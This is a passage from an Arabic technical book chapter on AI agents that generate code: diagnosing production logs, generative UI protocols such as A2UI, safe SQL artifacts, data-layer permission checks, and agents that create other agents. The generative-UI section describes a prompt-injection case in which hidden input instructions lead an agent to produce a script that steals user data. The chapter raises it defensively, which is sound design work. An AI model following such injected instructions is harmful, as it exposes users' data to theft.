يقوم الوكلاء في الإنتاج بإنشاء كمية كبيرة من سجلات المسار (تسجيل العملية الكاملة لكل مهمة). ومع ذلك، فإن تحديد المشكلات وتحديد الأسباب الجذرية وبناء حالات الاختبار من هذه السجلات يعد مسعى عالي التكلفة. قد تنشأ حالات الفشل من التفاعلات بين وحدات متعددة، مما يجعل من الصعب عزل الأسباب الجذرية. وقد يكون إعادة إنتاجها مكلفًا أيضًا لأن بيئات الاختبار نادرًا ما تلتقط التعقيد الكامل للإنتاج. وأخيرًا، غالبًا ما تتكرر الأخطاء عندما لا تتم تغطية الإصلاحات من خلال اختبارات الانحدار المنهجية.

يوفر إنشاء الكود مسارًا آليًا للتشخيص. يمكن للوكيل قراءة سجلات الإنتاج، ودمجها مع مستندات الهندسة المعمارية ومستندات متطلبات المنتج (PRDs) لتحديد ما إذا كان تدفق التنفيذ يلبي التوقعات تلقائيًا، وتحديد المكونات والوحدات النمطية التي بها مشكلات. واستنادًا إلى نتائج التحليل، فإنه يقوم بإنشاء تقارير مشكلة منظمة (الأولوية، الوحدة، الوصف، اقتراحات التحسين) وحالات اختبار الانحدار - تشير حالات الاختبار إلى معرف مسار المشكلة وجولات التفاعل الرئيسية، ويقوم إطار الاختبار بإعادة تشغيلها تلقائيًا للتحقق من أن النظام الثابت ينتج السلوك الصحيح لنفس الإدخال. أخيرًا، يتصل الوكيل بـ GitHub عبر MCP لإنشاء مشكلة وتعيينها للمطور ذي الصلة، مما يكمل الأتمتة الكاملة بدءًا من اكتشاف المشكلة وحتى تعيين المهمة.

> **التجربة 5-8 ★★★: نظام تشخيصي ذكي لسجلات الإنتاج**
>
> **هدف التجربة**: اكتشاف المشكلات تلقائيًا من مسارات الإنتاج وإنشاء حالات اختبار وإنشاء عناصر عمل.
>
> **النهج الفني**: يقوم الوكيل بتحليل مجموعة من مسارات الإنتاج جنبًا إلى جنب مع وثائق بنية النظام وبيانات PRD لتحديد أنماط المشكلات والوحدات المعنية. ثم يقوم بعد ذلك بإنشاء تقارير مشكلة منظمة تحتوي على الأولوية والوحدة النمطية والوصف والتحسينات الموصى بها. كما أنه يولد اختبارات الانحدار المرتبطة بمعرفات المسار وجولات التفاعل؛ يقوم إطار الاختبار بإعادة عرض هذه الحالات والتحقق من النتائج. وأخيرًا، يقوم الوكيل بإنشاء مشكلات GitHub من خلال MCP.
>
>
> 
>
>

### الشفرة بوصفها واجهة مستخدم توليدية

تتفاعل أنظمة الوكيل التقليدية مع المستخدمين بشكل أساسي من خلال حوار النص العادي. لكن النص هو وسيلة خطية أحادية البعد، وفي العديد من السيناريوهات وسيلة غير فعالة. يتطلب جمع المعلومات المنظمة عملية طويلة ذهابًا وإيابًا؛ يصعب التعبير عن علاقات البيانات المعقدة بنص عادي؛ وعندما يتعين على المستخدمين الاختيار من بين الخيارات، تكون القائمة النصية أقل سهولة بكثير من الواجهة المرئية.

يوفر إنشاء التعليمات البرمجية طريقة لتجاوز هذه القيود: يستطيع الوكلاء إنشاء النماذج والمخططات التفاعلية ديناميكيًا وحتى تطبيقات الويب الكاملة، مما يحول حوار النص الثابت إلى تفاعل غني ومتعدد الوسائط. يُسمى هذا النمط، حيث يقوم الوكيل بإنشاء الواجهة ديناميكيًا، بـ **واجهة المستخدم التوليدية**.

**البروتوكولات المشابهة لـ A2UI: توحيد واجهة المستخدم التوليدية.**

يؤدي السماح للوكلاء بإنشاء HTML وJavaScript التي يعرضها الوكيل وينفذها مباشرة إلى مخاطر أمنية أساسية: قد تكون التعليمات البرمجية التي تم إنشاؤها ضارة. على سبيل المثال، إذا قام شخص ما بإخفاء تعليمات في الإدخال عمدًا، فيمكن التلاعب بالوكيل عن طريق حقن الموجّهات، مما يؤدي دون قصد إلى إنشاء برنامج نصي يسرق بيانات المستخدم خلسة. هنا تكون السلسلة السببية مهمة: **حقن الموجّهات** — تعليمات ضارة مختلطة في مدخلات الوكيل — هو السبب، في حين أن تنفيذ البرنامج النصي الضار الناتج في المتصفح وسرقة البيانات يشبه Web XSS التقليدي (البرمجة النصية عبر المواقع)؛ لا ينبغي أن يُطلق على الهجوم ككل اسم XSS فحسب. توفر بروتوكولات الواجهة التعريفية مثل A2UI (واجهة الوكيل إلى المستخدم) أسلوبًا أكثر أمانًا. بدلاً من إنشاء تعليمات برمجية قابلة للتنفيذ مباشرة، يقوم الوكيل بإخراج "بيان وصف واجهة المستخدم" JSON فقط، مثل "عرض جدول بثلاثة صفوف وعمودين بعنوان "بيانات المبيعات"." ثم يعرض الوكيل الواجهة باستخدام مكوناته الآمنة المحددة مسبقًا. هذا يشبه قائمة المطعم: يمكن للعميل (الوكيل) طلب الأطباق الموجودة في القائمة فقط (المكونات المحددة مسبقًا)، وليس الدخول إلى المطبخ وإعداد أطباق عشوائية (تنفيذ تعليمات برمجية عشوائية). إحدى نقاط الارتباك الشائعة هي AG-UI (التفاعل بين الوكيل والمستخدم، الذي اقترحته CopilotKit). على الرغم من الاسم المشابه، فهي ليست لغة وصف لواجهة المستخدم ولكنها **بروتوكول حدث ونقل** يقوم بدفق حالة تنفيذ الوكيل - الرسائل واستدعاءات الأدوات وتصحيحات الحالة - إلى الواجهة الأمامية؛ يمكنه أيضًا حمل حمولات واجهة المستخدم مثل بيانات A2UI. الاثنان متكاملان ولا ينبغي تجميعهما كأمثلة لنفس فئة الواجهة التعريفية.

مبدأ التصميم الأساسي لهذه البروتوكولات هو **الأمان أولاً**: يحتفظ الوكيل بكتالوج مكونات موثوق به (على سبيل المثال، بطاقة، زر، TextField، جدول)، وإذا تم تنفيذ الكتالوج والعارض بشكل صحيح، فقد يطلب الوكيل المكونات المفهرسة فقط ولا يمكنه إدخال تعليمات برمجية عشوائية. يتم عرض الوكيل باستخدام مكوناته الأصلية، وليس عن طريق تنفيذ HTML العشوائي الذي تم إنشاؤه بواسطة الوكيل. تدعم هذه البروتوكولات عادةً أيضًا **العرض عبر الأنظمة الأساسية** (يتم عرض نفس الوصف في تطبيقات React وFlutter والتطبيقات الأصلية) و**الإنشاء المتزايد** (على سبيل المثال، عن طريق دفق JSONL الذي يعرضه الوكيل عند وصوله).

بالطبع، النهج التعريفي مناسب لسيناريوهات التفاعل القياسية (النماذج، الجداول، البطاقات)، بينما بالنسبة للاحتياجات المخصصة للغاية (على سبيل المثال، المرئيات المخصصة، واجهات الألعاب)، يظل إنشاء التعليمات البرمجية المباشرة هو الخيار الأكثر مرونة. فيما يلي تطبيقات محددة لكلا النموذجين.

**تسليم النتائج بصيغة HTML بدلًا من تقارير Markdown.** لا تقتصر الواجهات التوليدية على مرحلة التفاعل، بل تغير أيضًا شكل **المخرج النهائي** للوكيل. فقد اعتاد الوكيل أن ينهي المهمة بتقرير Markdown خطي، وهو تنسيق لا يوفر دائمًا تجربة القراءة الأفضل. ومع تحسن قدرة الوكلاء على إنشاء شفرات الواجهات الأمامية، أخذت الممارسة تتجه إلى إنتاج HTML مباشرة. ويتيح هذا التنسيق مزايا واضحة: أولًا، تساعد **العروض التوضيحية التفاعلية** المستخدم على فهم النظام سريعًا بدل الاعتماد على وصف نصي مطول. وثانيًا، يوفر **تمثيلًا بصريًا أفضل للبيانات** عبر المخططات وأدوات التصفح والتصفية والتعمق في التفاصيل. وثالثًا، يتيح **مخرجات قابلة للتحسين المستمر**، إذ يستطيع الوكيل تحديث صفحة HTML وتوسيعها طوال تنفيذ المهمة بدل تسليم ملف ثابت في نهايتها.

خذ تجربة المؤلف الخاصة في كتابة الأوراق البحثية كمثال: لكل مشروع بحثي، يحتفظ المؤلف بموقع تفاعلي[^ch5-4]. وهو بمثابة الناتج النهائي والوثيقة الحية طوال عملية البحث - حيث يطلب المؤلف من الوكيل تحديثه باستمرار مع تقدم التجارب. يخدم هذا الموقع ثلاثة أغراض على الأقل. أولاً، **إمكانية تتبع بيانات التجربة**: يمكن فحص البيانات المحددة لكل تجربة، والموجّهات المستخدمة، والاستجابات الأولية لـ LLM، بندًا بندًا على الموقع؛ إن وضع كل شيء في العلن يجعل من السهل اكتشاف المشكلات في إنشاء البيانات وتنسيقها وتوزيعها، وملاحظة التحيزات المنهجية في ردود LLM أو درجات القاضي. ثانيًا، **مراقبة مقاييس التدريب**: يعرض الموقع منحنيات التدريب مباشرة، مما يجعل من السهل مراقبة **مقاييس الصحة الداخلية** للنموذج وتحديد ما إذا كانت عملية التدريب لا تزال سليمة. المصطلح مأخوذ من الطب: هذه إشارات داخلية عما إذا كانت عملية التدريب نفسها صحية - فقدان التدريب والتحقق من الصحة، وقاعدة التدرج، ومعدل التعلم، وحيرة النموذج عند إصدار الرموز المميزة (مقياس "لثقته" في مخرجاته)، وفي التعلم المعزز، والمكافأة، وتباعد KL، وانتروبيا السياسة. وهي تختلف عن مقاييس النتائج النهائية مثل دقة المهمة: مثلما تختلف القراءات الفسيولوجية في الفحص عن الأداء الخارجي للشخص، فإن مقاييس الصحة الداخلية غالبًا ما تظهر مشاكل - الخسارة غير المتقاربة، والتدرجات المتفجرة، وانهيار التدريب - في وقت أبكر بكثير. ثالثًا، **عرض تشغيل النظام**: تكشف المرئيات كيفية عمل النظام بأكمله، مما يسمح للقراء بفهم بنية النظام المبني بالذكاء الاصطناعي في لمحة.

[^ch5-4]: يمكن العثور على الموقع الإلكتروني لمشروع بحث المؤلف على https://01.me/research/, حيث يحتوي كل مشروع على موقع تفاعلي يتم تحديثه باستمرار.

**توضيح نية المستخدم.**

عندما تكون المتطلبات غامضة أو غير كاملة، يجب على الوكيل طرح أسئلة توضيحية لجمع المعلومات المفقودة. عادةً ما تقوم منتجات مثل OpenAI Deep Research بذلك من خلال الأسئلة والأجوبة النصية، ولكن هذا النهج له حدود واضحة: فهو غير فعال لأن كل سؤال يستهلك دورة حوار، لذا قد تتطلب عشر نقاط توضيح عشر جولات؛ وهو ضعيف في التعبير عن التبعيات بين الأسئلة - على سبيل المثال، وجهة السفر تقيد وسائل النقل المتاحة - والتي يجد النص العادي صعوبة في تقديمها بوضوح.

من خلال إنشاء التعليمات البرمجية، يمكن للوكيل إنشاء واجهات تفاعلية منظمة لتحل محل الأسئلة والأجوبة النصية. يوضح الشكل 5-8 عملية إنشاء النموذج الديناميكي، موضحًا كيف يقوم الوكيل بتحويل أسئلة التوضيح إلى واجهة منظمة يمكن ملؤها دفعة واحدة. يقوم الوكيل بإنشاء نموذج HTML يحتوي على عناصر تحكم متعددة في الإدخال - مربعات نصية للمعلومات المفتوحة، وقوائم منسدلة للخيارات المحددة مسبقًا، ومربعات اختيار للاختيارات المتعددة، ومنتقيات التاريخ لإدخال الوقت المبسط. يمكن للإصدارات الأكثر تقدمًا استخدام JavaScript لإنشاء نماذج متتالية تظهر أو تخفي أسئلة المتابعة وتحديث الخيارات المتاحة استجابةً لاختيارات المستخدم. يقوم المستخدم بملء النموذج بالكامل مرة واحدة، مما يلغي جولات الحوار المتعددة، ويمكنه رؤية جميع المعلومات المطلوبة والعلاقات المنطقية بين الأسئلة بوضوح.


> **التجربة 5-9 ★★: نظام توضيح النوايا باستخدام النماذج الديناميكية**
>
> **هدف التجربة**: التحقق من قدرة الوكيل على توضيح نية المستخدم عن طريق إنشاء نماذج HTML ديناميكيًا.
>
> **النهج الفني**: يقوم الوكيل بتحليل طلب المستخدم وتحديد نقاط التوضيح وإنشاء رمز النموذج باستخدام المنطق المتتالي. تعرضها الواجهة الأمامية، ويقوم المستخدم بإرسالها مرة واحدة، ويقوم الوكيل بتحليل بيانات JSON لمواصلة المهمة.
>
> **معايير القبول**: مدخلات المستخدم "أريد حجز رحلة طيران إلى بكين." يقوم الوكيل بإنشاء نموذج يحتوي على الحقول التالية: مدينة المغادرة (إدخال النص)، وتاريخ المغادرة (منتقي التاريخ)، ونوع الرحلة (أزرار الاختيار لرحلة ذهاب فقط أو ذهابًا وإيابًا)، وتاريخ العودة (يتم عرضه فقط عند تحديد رحلة ذهابًا وإيابًا). يقوم المستخدم بإرسال كافة المعلومات دفعة واحدة.
>

**إنشاء استعلامات SQL.**

يمثل الاستعلام من قواعد البيانات حالة يرفع فيها توليد الشفرة جودة التفاعل بوضوح. فالأسلوب التقليدي يعتمد إما على واجهات رسومية مرهقة، وإما على كتابة SQL يدويًا بما يتطلب خبرة متخصصة. ويستطيع الوكيل تحويل طلب المستخدم إلى SQL، لكن يبقى قرار تصميمي مهم: هل ينفّذ الاستعلام بنفسه ثم يصف النتيجة بلغة طبيعية، أم يولّد الاستعلام بوصفه **ناتجًا وسيطًا** ينفذه النظام وتعرض الواجهة الأمامية نتيجته؟

يبدو الأسلوب الأول أكثر «ذكاءً»، لكنه شديد الهدر: فقد يعيد الاستعلام آلاف الصفوف، وقراءة النموذج لها ثم وصفها نثرًا تستهلك الوقت والرموز، فضلًا عن أن النموذج قد يخطئ عند نقل البيانات. والأنسب هو **نمط القطعة الأثرية** الموضح في الشكل 5-9: يولّد الوكيل استعلام SQL مستقلًا، ثم ينفّذه النظام وتعرض الواجهة نتائجه مباشرةً. وهكذا تنتقل البيانات من قاعدة البيانات إلى الواجهة من دون المرور بالنموذج؛ يكتب النموذج الاستعلام ولا ينسخ آلاف الصفوف أو يعيد صياغتها.

ولا يعني ذلك تنفيذ أي SQL مولّد بلا قيود. يجب أن يعمل هذا المسار بحساب قاعدة بيانات **للقراءة فقط**، وأن يحلل الاستعلام وفق قائمة سماح للجداول والأعمدة والعمليات، ويفرض نطاق المستخدم أو المستأجر، وحدًا أقصى للصفوف، ومهلة تنفيذ. أما أوامر التعديل، مثل `INSERT` و`UPDATE` و`DELETE`، فتنتمي إلى مسار منفصل ذي تحقق مستقل وموافقة صريحة؛ ولا تُنفّذ بوصفها قطعة أثرية للعرض.

ويجب تشغيل شيفرة التصوير في أصل معزول عن الشبكة ونظام الملفات، مع السماح بصيغة نتائج معتمدة فقط.


للمضي قدمًا، يمكن للوكيل إنشاء عنصرين يشكلان مسارًا: استعلام SQL ورمز التصور، مثل رمز المخطط الشريطي. تقوم الواجهة الأمامية بتمرير نتائج SQL مباشرة إلى رمز التصور. يقوم LLM بإنشاء التعليمات البرمجية ولكنه لا يشارك في مسار البيانات - وهذا هو جوهر إنشاء التعليمات البرمجية كواجهة.

> **التجربة 5-10 ★★: وكيل تخطيط موارد المؤسسات (ERP) للتفاعل مع اللغة الطبيعية**
>
> يعد برنامج ERP (تخطيط موارد المؤسسات) نظامًا مهمًا للشركات، وعادةً ما يستخدم واجهة المستخدم الرسومية (GUI) حيث تتطلب العمليات المعقدة نقرات متعددة بالماوس. يمكن لوكيل الذكاء الاصطناعي ترجمة طلبات المستخدمين باللغة الطبيعية إلى استعلامات SQL، مما يتيح الوصول الآلي إلى قاعدة البيانات.
>
> المتطلبات: إعداد قاعدة بيانات PostgreSQL تحتوي على جدولين: (1) جدول الموظفين، بما في ذلك معرف الموظف والاسم والقسم والمستوى وتاريخ التوظيف وتاريخ الاستقالة (NULL تعني الموظف حاليًا)؛ (2) جدول الرواتب متضمناً رقم هوية الموظف وتاريخ الدفع والراتب (سجل واحد شهرياً). يجيب الوكيل تلقائيًا:
>
> 1. ما هو متوسط مدة دوام الموظف؟
> 2. كم عدد الموظفين النشطين في كل قسم؟
> 3. ما القسم الذي لديه أعلى متوسط مستوى الموظف؟
> 4. كم عدد الموظفين الجدد الذين انضموا إلى كل قسم هذا العام والعام الماضي؟
> 5. ما هو متوسط الراتب للقسم (أ) من شهر مارس من العام السابق إلى شهر مايو من العام الماضي؟
> 6. ما القسم الذي كان لديه متوسط راتب أعلى في العام الماضي، أ أم ب؟
> 7. ما هو متوسط الراتب للموظفين في كل مستوى هذا العام؟
> 8. ما هو متوسط الراتب في الشهر الأخير للموظفين الذين تقل مدة خدمتهم عن سنة واحدة، ومن سنة إلى سنتين، ومن سنتين إلى ثلاث سنوات؟
> 9. أي 10 موظفين حصلوا على أكبر زيادة في الرواتب من العام الماضي إلى هذا العام؟
> 10. هل هناك أي حالات لعدم دفع الأجور (الموظفون الذين تم توظيفهم خلال شهر معين ولكن ليس لديهم سجل رواتب لذلك الشهر)؟
>

**إنشاء البرامج ديناميكيًا.**

التطبيق النهائي لإنشاء التعليمات البرمجية هو السماح للوكيل بإنشاء البرنامج ديناميكيًا بالكامل، من الصفر. يمثل "تخيل مع Anthropic" الحدود: يقوم المستخدم بتقديم طلب، ويقوم Claude بإنشاء واجهة الواجهة الأمامية ومنطق التفاعل في الوقت الفعلي، ويتفاعل المستخدم مع البرنامج الذي تم إنشاؤه، ويقوم Claude بتعديل الكود لإنتاج واجهة جديدة تظهر النتائج. يشاهد المستخدم تطبيقًا يأتي إلى الوجود من لا شيء ويستمر في التطور.

غير أن توليد تطبيق كامل عند كل طلب مكلف وبطيء، وهو أنسب لعرض الإمكانات منه للإنتاج. والأقرب إلى الواقع هو **تخصيص إطار قائم**: يبقى قلب التطبيق ثابتًا، وتُفتح للمستخدم جوانب محددة، كاللون والخط وترتيب المكوّنات. والأفضل تمثيل هذه التغييرات بمكوّنات وصفية وخصائص محدودة، لا بشفرة JavaScript حرة. وإذا استلزم الأمر تشغيل شفرة مولّدة، فيجب عزلها في أصل منفصل أو بيئة محصورة بصلاحيات وقدرات محددة وسياسة أمن محتوى (CSP) صارمة، كي لا تصل إلى DOM التطبيق أو رموزه السرية أو الشبكة. بعد اجتياز هذه الحدود فقط يمكن لـ HMR تطبيق التغييرات بسرعة من دون إعادة تحميل الصفحة كاملة.

> **التجربة 5-11 ★★: نظام تخصيص واجهة المحادثة**
>
> **هدف التجربة**: تمكين المستخدمين من تخصيص واجهة البرنامج على الفور من خلال الحوار باللغة الطبيعية، وتقييم ما إذا كان إنشاء التعليمات البرمجية مع إعادة التحميل السريع يمكن أن يوفر تجارب مستخدم مخصصة بشكل فعال.
>
> **النهج الفني**: ابنِ تطبيق محادثة أساسيًا بواجهة React وخلفية FastAPI، وفعّل إعادة التحميل السريع في بيئة التطوير. يصف المستخدم أثناء الحوار التغييرات المطلوبة في الألوان والخطوط والتخطيط ومواضع المكوّنات. يحوّل الوكيل الطلب أولًا إلى مكوّنات وخصائص من قائمة مسموح بها؛ وأي شفرة حرة تُشغّل داخل أصل معزول ذي صلاحيات محدودة وCSP صارم. بعد التحقق، ترصد آلية HMR تغييرات الملفات وتعيد بناء الواجهة، فيرى المستخدم النتيجة فورًا ويستطيع متابعة التخصيص عبر جولات متعددة.
>

يغيّر البرنامج الديناميكي فرضية الأمان التقليدية بقدر ما يغيّر المرونة. في الماضي كانت شيفرة الأعمال تُطوَّر وتُراجَع وتُختبر وتُنشر، ثم تبقى مستقرة نسبيًا؛ لذلك كانت فحوص الصلاحيات تُكتب عادةً في طبقة التطبيق. أما عندما يستطيع الوكيل توليد الواجهات وسير العمل وحتى شيفرة الوصول إلى البيانات أو إعادة كتابتها في أي وقت، فقد تفقد هذه الطبقة استقرارها. قد تُسقط الشيفرة الجديدة فحصًا دقيقًا، أو تكشف حقلًا مخفيًا، أو تتجاوز فحصًا قائمًا عبر مسار استدعاء آخر، فتُخرق حدود الصلاحيات بصمت.

لذلك لا ينبغي أن يكون هدف أمان البرنامج الديناميكي هو ضمان أن يكتب الذكاء الاصطناعي كل فحص بصورة صحيحة، بل أن **تبقى قيود الصلاحيات غير قابلة للتجاوز حتى عندما يكتب الذكاء الاصطناعي شيفرة خاطئة**. فإذا كانت فحوص الصلاحيات جزءًا من منطق الأعمال المولّد، فهي تقع في نطاق الثقة نفسه الذي يفترض أن تقيّده. تقلل التعليمات والاختبارات والمراجعة معدل الخطأ، لكنها لا تغطي كل مسار تنفيذي مستقبلي ولا تصلح حدًا أمنيًا نهائيًا.

والبنية الأكثر متانة هي **نقل حد الثقة إلى طبقة البيانات**. تتولى طبقة التطبيق المولّدة العرض وسير العمل والتنسيق، بينما تفرض آلية ثابتة راجعها البشر قواعد من يستطيع فعل ماذا وبأي بيانات. يمكن لأمان الصفوف في قاعدة البيانات تقييد المستخدم ببيانات مستأجره، وترفض القيود والمدققات الحالات غير القانونية، ولا تعرض العروض أو الإجراءات المخزنة أو خدمات الوصول إلا العمليات المسموح بها. ويجب أن تحمل كل قراءة وكتابة **سياق وصول** يربطه وقت التشغيل الموثوق ويضم المستخدم والمستأجر والدور أو هوية الوكيل؛ فلا يستطيع الكود المولّد تزوير الهوية أو الحصول على بيانات اعتماد مميّزة تتجاوز القواعد.

لا يعني خفض الصلاحيات أن يوضع كل منطق الأعمال داخل قاعدة البيانات. يمكن للتطبيق إجراء فحوص أولية لتقديم تغذية راجعة سريعة، لكن طبقة البيانات تحتفظ بقرارها النهائي. ويجب أن تمر كل مسارات الوصول عبرها، فلا يتصل الكود المولّد بقاعدة البيانات مباشرةً. وهكذا يمكن للطبقة العليا أن تتغير باستمرار، بينما تبقى القيود غير القابلة للتفاوض في طبقة لا يعاد توليدها مع كل طلب. وهذه هي طبقة البيانات في هيكل الفصل الأول الثلاثي، أصعب الطبقات على الالتفاف.

> **التجربة 5-12 ★★★: كائنات البيانات المضمّنة للصلاحيات للبرمجيات الديناميكية**
>
> **هدف التجربة**: بناء مخزن كائنات يسمح بتوليد شيفرة التطبيق أو إعادة كتابتها، مع فرض التفويض وسلامة البيانات في طبقة البيانات. التحقق من أن الشيفرة المولّدة لا تتجاوز الحد الثابت بتخطي انتقال حالة، أو كتابة راتب خارج النطاق، أو القراءة عبر المستأجرين.
>
> **النهج الفني**: توفير طبقة وسيطة لمخزن كائنات Python فوق PostgreSQL. تعلن أنواع البيانات قواعد الصلاحية وسياق الوصول والمدققات والعلاقات والتفاعلات؛ وتمر كل عملية قراءة أو كتابة لكائن بالتتابع عبر فحوص الصلاحية والتحقق، ثم الحفظ وفحوص سلامة المراجع، وما إلى ذلك.
>
> **معايير القبول**: ينجح تحديث مسار توظيف مشروع، بينما ترفض طبقة البيانات تخطي حالة المرشح والراتب خارج النطاق والقراءة عبر المستأجرين.

### شفرة تنشئ شفرة: التمهيد الذاتي للوكيل

لقد اتبعت الأقسام السابقة عملية إنشاء التعليمات البرمجية عبر مجال تلو الآخر، بدءًا من التفكير الرياضي وحتى إنشاء المستندات وحتى تخصيص الواجهة. ادفع هذه القدرات إلى أقصى حدودها وسيظهر سؤال طبيعي: هل يمكن للوكيل استخدام إنشاء التعليمات البرمجية لإنشاء وكيل آخر؟

أولاً، يجب توضيح تقسيم العمل في هذا القسم مع الفصل التاسع. يناقش هذا القسم كيفية استخدام وكيل البرمجة للتعليمات البرمجية **لإصلاح وإنشاء وكلاء من نوعه** — الإصلاح الذاتي، والنسخ المتماثل الذاتي، وإنشاء وكلاء جدد عند الطلب. ينصب تركيزها على إنشاء التعليمات البرمجية والقدرة على بناء النظام، لذلك تسمى هذه العملية **bootstrapping**. لا يشرح الفصل 9 مرة أخرى كيفية كتابة هذا الرمز؛ وبدلاً من ذلك، فهو يركز على كيفية تحفيز تجربة الإنتاج المقيَّمة للتعديل الذاتي: تحديد المعرفة أو التعليمات أو البرامج أو المعلمات كهدف للتحديث؛ توليد نسخة مرشحة من نسخة مستقرة؛ والتحكم في المخاطر من خلال اختبار الانحدار، وإصدارات الكناري، والتراجع. يتقاطع الفصلان عند "تعديل الكود"، لكنهما يجيبان على أسئلة مختلفة.


**الإصلاح الذاتي للعميل: طبيب OpenClaw.**

أحد المتطلبات الأساسية الحاسمة لتمهيد الوكيل هو القدرة على الإصلاح الذاتي. يجسد أمر `doctor` في OpenClaw هذه الإمكانية، حيث يمكنه اكتشاف ثلاثة أنواع من المشكلات تلقائيًا:

- **حالات شاذة في التكوين**: رموز OAuth منتهية الصلاحية، وتنسيقات التكوين القديمة، وتعارضات المنافذ
- **مشكلات الحالة**: ملفات قفل الجلسة القديمة، وتبعيات المكونات الإضافية المفقودة
- **مشكلات صحة الخدمة**: البوابة لا تعمل، وتفتقد صور وضع الحماية

ثم يقوم بحلها تلقائيًا من خلال استراتيجية إصلاح متعددة الطبقات: يتم تنفيذ الإصلاحات الآمنة (تطبيع التكوين، وتنظيف ملف القفل) تلقائيًا؛ تتطلب العمليات المحفوفة بالمخاطر (إعادة تشغيل الخدمة، واستبدال التكوين القسري) تأكيدًا من المستخدم.

دعونا لا نبالغ في هذا: المشاكل عالية التردد مثل الرموز منتهية الصلاحية، وملفات القفل التي لا معنى لها، وتعارضات المنافذ لها قواعد كشف واضحة وإجراءات إصلاح ثابتة، و`doctor` **تعالجها أولاً من خلال عمليات فحص حتمية**، تمامًا مثل البرنامج النصي للعمليات التقليدية. تصبح قدرة الوكيل ذات معنى في الطبقة الثانية: بالنسبة للمشكلات الأصعب التي تتجاوز تلك القواعد، يستخدم `doctor` LLM لتحليل سجلات الأخطاء وتفسير ملفات التكوين واستنتاج الأسباب الجذرية وإنتاج خطة إصلاح مستهدفة. تعمل عمليات التحقق الحتمية على حل المشكلات الشائعة بشكل موثوق، بينما يغطي LLM الذيل الطويل؛ تسمح الطبقتان معًا لـ `doctor --fix` بحل جزء كبير من مشكلات البوابة الشائعة تلقائيًا. ما يجعل هذا النمط "وكيل إصلاح الوكيل" هو أن الوكيل لا يعمل على نظام خارجي ولكن على بيئة التشغيل الخاصة به، مما يؤدي إلى رفع الإصلاح الذاتي من وظيفة محول النظام إلى البنية التحتية الأساسية لتمهيد التشغيل.

**الأساليب الأساسية لجعل الوكيل يكتب وكيلًا.**

يعد إنشاء وكيل عالي الجودة أصعب بكثير من إنشاء كود تطبيق عادي، لأنه يتطلب فهمًا عميقًا لأنماط بنية الوكيل وأفضل الممارسات والمزالق الشائعة. وبدون هذه الخبرة في هذا المجال، حتى أقوى نماذج توليد التعليمات البرمجية تنتج وكلاء يعانون من عيوب معمارية خطيرة. تشمل العيوب الشائعة ما يلي:

1. **إدارة السياق المخصصة**: الفشل في استخدام تنسيق السياق القياسي الذي تمت مناقشته في الفصل 2، وحشو المسارات كنص عادي في السياق، وتجاهل تحسينات KV Cache من الرسائل المنظمة، وإدخال أخطاء شرط الحدود في حلقات استدعاء الأدوات
2. **تصميم أداة غير قياسي**: أوصاف غامضة، وتعليمات حدود الاستخدام مفقودة، وقوائم سلبية، ومعلمات تفتقر إلى أمثلة ملموسة
3. **خيارات التكنولوجيا القديمة**: الميل إلى استخدام النماذج وواجهات برمجة التطبيقات الأكثر شيوعًا ولكنها قديمة من بيانات التدريب. الحل: الحفاظ على قاعدة معارف SOTA أو تزويد الوكيل بإمكانيات البحث
4. **قطع الاتصال بالنظام البيئي الخارجي**: استخدام واجهات برمجة التطبيقات المهملة أو المكتبات غير الخاضعة للصيانة أو الأنماط المعيبة

لا يتمثل المسار الأكثر فعالية لحل هذه المشكلات في إدراج جميع القواعد في الموجّه بشكل شامل، ولكن **توفير تطبيقات وكيل عالية الجودة كأمثلة مرجعية**، وتوجيه وكيل إنشاء التعليمات البرمجية لتعديلها بدلاً من البدء من الصفر.

إن ميزة الإنشاء المبني على الأمثلة واضحة: رمز المثال نفسه يحمل أفضل الممارسات. الوكيل الذي يتكيف مع التنفيذ الذي تم التحقق من صحته يحصل على الأمور في نصابها الصحيح في كثير من الأحيان أكثر من الوكيل الذي يبدأ من الصفر، لأن التنفيذ يحافظ على الاختيارات المعمارية السليمة دون الحاجة إلى توضيح كل قاعدة في الموجّه.

عندما يُكلَّف وكيل بتطوير وكيل جديد، يبدأ بنسخ شفرته هو، أو تطبيق آخر عالي الجودة سبق التحقق منه، ثم يجري تعديلات محددة: يضبط موجّه النظام ليلائم الدور الجديد، ويستبدل الأدوات أو يضيف إليها بحسب الوظائف المطلوبة، ويعدل منطق العمل مع الحفاظ على الإطار المعماري. ويضمن نمط «النسخ الذاتي مع التكيف» أن يرث الوكيل الجديد المزايا التقنية الأساسية، مع بقائه قادرًا على التمايز في جوانب بعينها؛ وهو ما يشبه تضاعف الجينات المصحوب بالطفرات في علم الأحياء.

> **التجربة 5-13 ★★★: تطوير وكيل يمكنه إنشاء وكلاء**
>
> **هدف التجربة**: إنشاء وكيل ترميز يتمتع بقدرات البرمجة الوصفية — القدرة على كتابة البرامج التي تنشئ برامج أخرى أو تعدلها — حتى يتمكن من إنشاء أنظمة وكيل جديدة تلقائيًا من متطلبات المستخدم مع الالتزام بأفضل الممارسات.
>
> **النهج الفني**: تزويد وكيل البرمجة بتطبيقات الوكيل عالية الجودة كأمثلة مرجعية (يمكن استخدام مشروع ch5/coding-agent نفسه). عند تكليفه بإنشاء وكيل جديد، يقوم الوكيل أولاً بنسخ رمز المثال هذا ثم يقوم بإجراء التعديلات المستهدفة بناءً على احتياجات المستخدم المحددة.
>
> **معايير القبول**: يعمل الوكيل الذي تم إنشاؤه بنجاح ويكمل المهام الأساسية. تأكد من أنه يستخدم تنسيقات الرسائل القياسية وبروتوكولات استدعاء الأدوات والنماذج وواجهات برمجة التطبيقات الموصى بها حاليًا والسياق الصحيح وإدارة الحالة عبر دورات محادثة متعددة. قارن بين التوليد من الصفر والتعديل المبني على الأمثلة، وتأكد من أن الأخير يعمل على تحسين الجودة والكفاءة.
>
>
> 
>
>

يُعد تمهيد الوكيل هو التطبيق النهائي لإنشاء التعليمات البرمجية - فالوكيل الذي يمكنه إنشاء وكلاء يحقق التكرار الذاتي للذكاء. وبهذا نكون قد تتبعنا المسار الكامل للفصل: بدءًا من أسس Coding Agent، مرورًا بالاستخدامات العديدة لتوليد التعليمات البرمجية، وحتى التمهيد.

## ملخص الفصل

لقد ناقش هذا الفصل شيئًا واحدًا طوال الوقت: الكود ليس مجرد أداة لكتابة البرامج، بل هو لغة التفكير الرسمي والتعبير الدقيق للوكيل.

